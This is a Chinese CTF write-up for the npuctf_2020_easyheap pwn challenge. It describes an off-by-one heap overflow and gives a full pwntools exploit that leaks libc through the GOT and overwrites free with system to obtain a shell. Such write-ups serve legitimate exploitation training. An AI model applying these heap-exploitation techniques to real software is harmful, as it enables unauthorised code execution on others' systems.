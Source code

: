 # [npuctf_2020_easyheap](https://buuoj.cn/challenges#npuctf_2020_easyheap)

![image-20250205201822871](./../images/image-20250205201822871.png)

这里发现的是一个常见的heap题目

![image-20250205201912782](./../images/image-20250205201912782.png)

这里发现我们只能写入堆块的大小为24和56

![image-20250205202342668](./../images/image-20250205202342668.png)

这里是一个offbayone因此我们要溢出heap

我们可以直接泄露一个free的libc把free改成system

并且free掉前面一个堆块就可以把里面的值写入到rdi中使得system中的rdi参数可以的到

因此我们的exp：
```python
from LibcSearcher import LibcSearcher
from pwn import *
context.log_level='debug'
# from nss.UAF import addr_chunk

# io = remote()
io = process("/home/fofa/npuctf_2020_easyheap")
# io = remote("node5.buuoj.cn",27308)
elf = ELF("/home/fofa/npuctf_2020_easyheap")
def create_chunk(size,context):
    io.sendafter("Your choice :",b'1')
    io.sendafter("Size of Heap(0x10 or 0x20 only) :",str(size))
    io.sendafter("Content:",context)

def show_chunk(idx):
    io.sendafter("Your choice :",b'3')
    io.sendafter("Index :",str(idx))
def edit_chunk(idx,context):
    io.sendafter("Your choice :",b'2')
    io.sendafter("Index :",str(idx))
    io.sendafter("Content:",context)
def delete_chunk(idx):
    io.sendafter("Your choice :",b'4')
    io.sendafter("Index :",str(idx))

create_chunk(0x18,'aaaa')#0
create_chunk(0x18,'bbbb')#1
# create_chunk(0x18,'cccc')#2

payload = b'/bin/sh\x00'+p64(0)*2+p64(0x41)
edit_chunk(0,payload)

delete_chunk(1)
# gdb.attach(io)
payload = b'a'*0x20+p64(0x38)+p64(elf.got['free'])
create_chunk(0x38,payload)#1
#
show_chunk(1)
# gdb.attach(io)
# pause()
free_addr = u64(io.recv(26)[-6:].ljust(8,b'\x00'))
info(hex(free_addr))
libc = LibcSearcher('free',free_addr)
libc_base = free_addr-libc.dump('free')
info(hex(libc_base))
#
system = libc_base+libc.dump('system')
edit_chunk(1,p64(system))
gdb.attach(io)
# gdb.attach(io,'b free_hook\nc')
# pause()
delete_chunk(0)
# gdb.attach(io)
# pause()
io.interactive()
```

---

## 总结

这里的调试我主要是明白了一点

当我们前一个堆块free掉后堆块中fd的位置的参数会被放入的rdi中而system函数中的值是从rdi中调出来的因此我们得到了一个geshell的权限

